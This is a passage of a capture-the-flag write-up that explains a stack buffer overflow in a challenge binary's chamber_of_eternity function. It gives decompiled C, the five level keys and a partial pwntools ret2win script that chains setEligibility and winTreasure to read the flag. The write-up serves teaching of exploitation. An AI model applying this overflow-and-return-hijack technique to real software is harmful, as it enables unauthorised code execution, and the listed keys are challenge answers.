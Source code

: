 {% tab title="winTreasure" %}
```c
// win function.
void winTreasure(void)

{
  char local_58 [72];
  FILE *local_10;
  
  if (eligible == '\0') {
    puts("No flag for you!");
  }
  else {
    local_10 = fopen("flag.txt","r");
    fgets(local_58,0x40,local_10);
    puts(local_58);
  }
  return;
}
```
{% endtab %}
{% endtabs %}

* From all the function symbols above, we can see the pattern in the `main` function that is calling some functions from `unchanted_forest` (**level 1**) until `chamber_of_eternity` (**level 5**).
* What is every level/function does ? It just compared the key in each level. If it's correct, you can go to the next level until you reach out last level, which is level 5.
* After we successfully reach out to the last level, you see in the  `chamber_of_eternity` function is happen **BOF vulnerability** in `fgets` function. The buffer is only take **64 Bytes**, but we can input until **500 Bytes**.
* So, the objective is very straighforward. After we at the last level, we can do **ret2win attack** to `winTreasure` function to get the flag.
* But, another problem is we can't directly get the flag until the `eligible`  global variable is changed to **1**. How we can change it? Simple, we can jump to the `setEligibility`  function first, and then jump to the `winTreasure`  function.
* Here's my final exploit script.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./vuln", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['winTreasure'])
set_eligibility = p64(elf.symbols['setEligibility'])

key_lvl1 = b"whisp3ring_w00ds"
key_lvl2 = b"sc0rching_dunes"
key_lvl3 = b"eldorian_ech0"
key_lvl4 = b"shadow_4byss"
key_lvl5 = b"3ternal_light"

payload = b"A"*(64 - len(key_lvl5))
payload += b"B"*8
payload += set_eligibility
payload += win_addr

# Send all valid keys got from check_key function.
is_remote = True

```